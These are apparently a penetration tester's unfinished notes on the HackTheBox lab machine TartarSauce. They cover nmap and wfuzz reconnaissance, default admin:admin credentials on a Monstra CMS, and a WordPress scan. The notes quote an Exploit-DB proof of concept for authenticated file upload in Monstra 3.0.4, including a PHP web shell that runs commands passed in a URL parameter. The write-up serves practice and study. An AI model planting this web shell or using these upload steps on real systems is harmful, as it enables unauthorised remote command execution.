# Recon

## nmap
I do my initial scan to see which ports are open.

```
# Nmap 7.92 scan initiated Tue Jul 19 17:34:35 2022 as: nmap -p- -oA first/scan --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv tartarsauce.htb
Nmap scan report for tartarsauce.htb (10.129.73.76)
Host is up, received echo-reply ttl 63 (0.070s latency).
Scanned at 2022-07-19 17:34:35 CDT for 22s
Not shown: 64991 closed tcp ports (reset), 543 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Tue Jul 19 17:34:57 2022 -- 1 IP address (1 host up) scanned in 22.53 seconds
```

Our first scan only returns port 80 which is slightly unusual as I would at least expect port 22 open. Before I run the next beefier nmap scan, I do a udp scan on all ports just to make sure I am not missing anything.

```
# Nmap 7.92 scan initiated Tue Jul 19 17:35:19 2022 as: nmap -oA main/scan -sV -sC --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p80 tartarsauce.htb
Nmap scan report for tartarsauce.htb (10.129.73.76)
Host is up, received echo-reply ttl 63 (0.062s latency).
Scanned at 2022-07-19 17:35:20 CDT for 8s

PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 5 disallowed entries 
| /webservices/tar/tar/source/ 
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/ 
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-title: Landing Page
|_http-server-header: Apache/2.4.18 (Ubuntu)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 19 17:35:28 2022 -- 1 IP address (1 host up) scanned in 8.84 seconds
```


no wfuzz subdomains
fuzz -c -u http://tartarsauce.htb -H "Host: FUZZ.tartarsauce.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hw 128 | tee subdomains.out



Plugins request?




admin:admin

api calls to Monstra.org


"Monstra is a modern and lightweight Content Management System.
It is Easy to install, upgrade and use."

authenticated file upload monstra


POC
```
proof of Concept
Steps to Reproduce:

1. Login with a valid credentials of an Editor
2. Select Files option from the Drop-down menu of Content
3. Upload a file with PHP (uppercase)extension containing the below code: (EDB Note: You can also use .php7)

           <?php

 $cmd=$_GET['cmd'];

 system($cmd);

 ?>

4. Click on Upload
5. Once the file is uploaded Click on the uploaded file and add ?cmd= to
the URL followed by a system command such as whoami,time,date etc.
```

webshell
















http://tartarsauce.htb/webservices/wp/wp-login.php



nothing really from `wpscan`

```
[+] WordPress version 4.9.4 identified (Insecure, released on 2018-02-06).
 | Found By: Atom Generator (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/index.php/feed/atom/, <generator uri="https://wordpress.org/" version="4.9.4">WordPress</generator>
 | Confirmed By: Style Etag (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-admin/load-styles.php, Match: '4.9.4'
 ```
 
 